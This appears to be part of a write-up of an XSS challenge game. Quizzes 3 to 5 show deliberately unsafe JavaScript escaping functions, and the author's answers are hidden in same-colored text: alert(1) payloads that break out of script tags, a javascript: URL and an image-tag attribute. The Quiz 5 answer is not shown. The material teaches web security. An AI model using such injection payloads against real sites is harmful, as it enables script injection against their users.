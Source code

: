 <pre style="background-color: #FAFAFA; color: #FAFAFA">&lt;/script>&lt;script>alert(1)&lt;/script></pre>

### Quiz 3 ###

The code below generates HTML in an unsafe way. Prove it by calling `alert(1)`.

    function escape(s) {
      var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
      console.log(url);
    
      var a = document.createElement('a');
      a.href = url;
      document.body.appendChild(a);
      a.click();
    }

My answer:

<pre style="background-color: #FAFAFA; color: #FAFAFA">%22+alert(1)+%22</pre>

### Quiz 4 ###

The code below generates HTML in an unsafe way. Prove it by calling `alert(1)`.

    function escape(s) {
      var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
      // URLs
      text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
      // [[img123|Description]]
      text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
      return text;
    }

My answer:

<pre style="background-color: #FAFAFA; color: #FAFAFA">[[1|"" onload=alert(1) ]]</pre>

### Quiz 5 ###

The code below generates HTML in an unsafe way. Prove it by calling `alert(1)`.

    function escape(s) {
      // Level 4 had a typo, thanks Alok.
      // If your solution for 4 still works here, you can go back and get more points on level 4 now.
    
      var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
      // URLs
      text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
      // [[img123|Description]]
      text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
      return text;
    }

My answer:
